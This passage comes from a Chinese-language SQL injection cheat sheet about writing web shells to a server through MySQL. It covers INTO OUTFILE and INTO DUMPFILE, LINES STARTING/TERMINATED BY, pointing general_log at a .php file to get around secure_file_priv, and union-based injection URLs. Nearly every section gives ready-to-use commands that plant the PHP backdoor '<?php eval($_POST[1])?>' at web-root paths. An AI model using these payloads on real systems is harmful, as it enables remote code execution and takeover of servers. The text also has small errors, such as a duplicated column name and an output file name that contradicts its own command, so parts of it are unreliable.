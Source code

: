 ## 0x04 into outfile 写文件

还有一个需要注意的点，在linux写shell的时候需要找一个777目录，如果没有777目录是无法成功写入的！！！

### 0x04.1 写入方法1

select '这里写木马' into outfile '网站绝对路径/xxx.php'

### 0x04.2 写入方法2

select * from tdb_goods where goods_id=1 into outfile "网站绝对路径/xxx.php" LINES STARTING BY '<?php phpinfo()?>'

- LINES STARTING BY '写入的内容' = 设置每行数据开头的字符，可以为单个或多个字符。默认情况下不使用任何字符。
- LINES TERMINATED BY '写入的内容' = 设置每行数据结尾的字符，可以为单个或多个字符。默认值是"\n"。

## 0x05 利用mysql日志写文件

可绕过 secure_file_priv 不管 secure_file_priv 设置的是啥，都可以直接使用这个方法绕过，生成文件

利用条件:

1. root权限 或是 当前登录账号能访问 performance_schema 库
2. 知道网址绝对路径

还有一个需要注意的点，在linux写shell的时候需要找一个777目录，如果没有777目录是无法成功写入的！！！

如果当前登录账号能访问 performance_schema 库那么就大概率可以shell了

- SET GLOBAL general_log=ON;
- SET GLOBAL general_log_file='网站绝对路径/xxx.php';
- select '<?php eval($_POST[1])?>';
- SET GLOBAL general_log=OFF;

## 0x06 注入导出shell

web: http://127.0.0.1/xx.php?id=-1 union select 1,2,3,4,'<?php eval($_POST[1])?>',5 into outfile '绝对路径' -- a

select * from tdb_goods where goods_id=-1 union select 1,2,3,4,'<?php eval($_POST[1])?>',5 into outfile '绝对路径' -- a

例子: select * from tdb_goods where goods_id id=-1 union select 1,2,3,4,'<?php eval($_POST[1])?>',5 into outfile '/var/www/html/1.php' -- a

## 0x07 INTO DUMPFILE 写文件

sql: select 1,2,3,4,'<?php eval($_POST[1])?>',5 INTO DUMPFILE 'E:/WWW/111111.php' -- a

## 0x08 INTO DUMPFILE 写文件2

不能union的写shell方法

```plain
select * from 表 WHERE id=1 into outfile "F:\1.php" lines terminated by "<?php echo 1; ?>"

执行完毕以后会在 F:\1.php 生成 111111.php 并且里面 <?php echo 1; ?>
```
